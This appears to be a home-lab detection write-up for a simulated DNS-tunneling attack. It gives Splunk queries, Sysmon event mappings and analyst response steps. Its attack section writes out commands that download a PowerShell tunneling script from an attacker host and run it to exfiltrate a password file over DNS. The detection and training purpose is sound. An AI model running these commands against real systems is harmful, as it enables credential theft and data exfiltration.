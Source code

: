 

# Detection Usecase 4 : DNS Tunneling


# Scenario Summary: 

An Attacker has attempted to logged in into the System by using credentials of a user and able to download a suspicious ps1 file,  
then executed the ps1 file which generated many DNS request to an unknown Domain Name , the request contain more than 15 character of subdomain which makking it suspicious.  

# Attack Steps:

Here, Virtual Windows 11 is the victim where universal forwarder is running,  
and Virtual Kali Linux is the attacker.
- The Attack was simulated by Kali Linux on Windows as follows: 

1) Attacker Login to Victim Machine via SSH and uploaded a PowerScript on it.  
```
ssh sshuser@192.168.0.103
```  
```
curl http://192.168.0.106/sender-dns-tunnel.ps1 -o ![sender-dns-tunnel.ps1](<scripts/sender-dns-tunnel.ps1>)
```
2) Then executed the following command to capture a file which contain sensitive passwords.  
```
powershell .\sender-tunnel.ps1
``` 
3) Now Attacker has started receiving many data from Victim Machine in Base64 format with the help of a python script.  
```
python3 [dns_tunnel_capturer.py](<scripts/dns_tunnel_capturer.py>)
```  
![recived](logs/Screenshot_2025-06-03_03_29_12.png)


 ******************************

- Tools Used:  
    - Attacking Tool : PowerShell Script, SSH, Python Scripts, DNS tunneling.  
    - SIEM : Splunk Free  
    - Log Source : Windows Security Event Logs, Sysmon


 ******************************
 ******************************

# Event ID / Data Source Mapping:

| Source                    | EventCode | Description                      |
|---------------------------|-----------|----------------------------------|
| WinEventLog : Security    | 4624      | Successful logon                 |
| WinEventLog : Sysmon      | 3         | Network Connection Detected      |
| WinEventLog : Sysmon      | 1         | Process Creation                 |
| WinEventLog : Sysmon      | 11        | File Creation                    |

 ******************************
 ******************************

# Detection Query / Logic:

```spl 
- Search - Logged in attempt
index=* EventCode=3 OR EventCode=4624 LogonType=8 OR LogonType=10
```
```spl 
- Search - Command Execution or file creation
index=* EventCode=1 OR EventCode=11
```
```spl 
- Search - Suspicious Lookup Detection
index=* EventCode=1 nslookup.exe | table CommandLine, EventCode, _time
```


 ******************************
 ******************************

# Sample Alert Screenshot

1) User has logged in.  

![login1](<logs/Screenshot 2025-06-03 130235.png>)  
![login2](<logs/Screenshot 2025-06-03 130219.png>)

2) Then attempted to download a ps1 file.  

![ps1](<logs/Screenshot 2025-06-03 135809.png>)  
![created](<logs/Screenshot 2025-06-03 135821.png>)

3) After execution of the PowerShell many nslookup Command Execution was seen and it was trying to resolve an unknown Domain Name.  

![nslookup](<logs/Screenshot 2025-06-03 131305.png>)  
![logs](<logs/Screenshot 2025-06-03 131124.png>)  
![logs 2](<logs/Screenshot 2025-06-03 131155.png>)

 ******************************
 ******************************

# Analyst Notes / Recommendations:

1) What Should an Analyst do ? 

-> If there is Situation like DNS Tunneling, then :
    -> Confirm the Detection - Verify logs and see the indicators(e.g.,Sysmon EventId=1(command which trying to request an unknown Domain Name), Unknown Domain Name has long base64 encoded Subdomains) and try to correlate it with unexpected login or unusual user behavior.  
    -> Isolate the system sending the DNSRequest and stop if any malicious processes is running and disable the user account and Block the IP.  
    -> Check for any Lateral Movement activity(e.g., UserAccount Creation(4720), Registry Modification(4657), Scheduled Tasks(4698) or Service Creation(4697)).  
    -> Collect the Evidence.  
    -> Report & Document the incident & Improve.  

# Detection Status

 -> Successfully Detected.  
